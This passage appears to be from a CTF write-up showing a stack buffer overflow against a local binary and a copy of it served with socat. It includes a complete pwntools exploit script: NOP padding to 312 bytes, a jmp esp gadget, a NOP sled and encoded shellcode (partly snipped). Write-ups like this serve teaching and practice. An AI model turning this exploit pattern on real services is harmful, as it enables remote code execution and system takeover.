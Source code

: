 As you can see, we successfully were able to exploit the program and pass our shellcode to it.

## Remote Exploit

There are only a few changes that we need to make in order to exploit the remote port. To mimic a docker container, I have the program running via `socat` on port `9001`. I also have a fake flag on this machine to represent the actual challenge itself.

![](/images/ctf/overflow_image_2.png)

PWNTools has the ability to send data over a socket, and handles primarily all of the backend work for us. This involves:

* Opening up a socket to the remote connection (as intended)
* Handling all DNS translations
* Providing error handling directly to the console dependent on network connectivity

We can supply a `start` function to the beginning of our current exploit to use the remote function in the pwntools library.

```python
def start(argv=[], *a, **kw):
    if args.REMOTE:  # remote -> python3 exp.py 'ADDRESS' 'PORT'
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # local
        return process([binary] + argv, *a, **kw)
```

This will allow us to switch between both remote and local variations of our shellcode being sent to the target process. This results in our POC being completed as the following:

```python

from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # remote -> python3 exp.py 'ADDRESS' 'PORT'
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # local
        return process([binary] + argv, *a, **kw)

binary = "./overflow"

elf = context.binary = ELF(binary, checksec=False)

p = start()
buffer = 312

jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

buf =  b""
buf += b"\xbf\x2a\x69\x3e\x38\xd9\xcd\xd9\x74\x24\xf4\x58"
[...snip...]
buf += b"\x55\x49\xe4\x67\x6d\x8e\x08\x78\x41\xec\x61\x16"
buf += b"\xb2\x83\x19\xe6\x9b\x30\x50\x07\xee\x37"

# payload
payload = flat(
    asm('nop') * buffer, # padding to 312 offset (before EIP)
    jmp_esp, # address to jmp_esp call
    asm('nop') * 100, # nop sled
    buf # shellcode
)

write("payload", payload)
```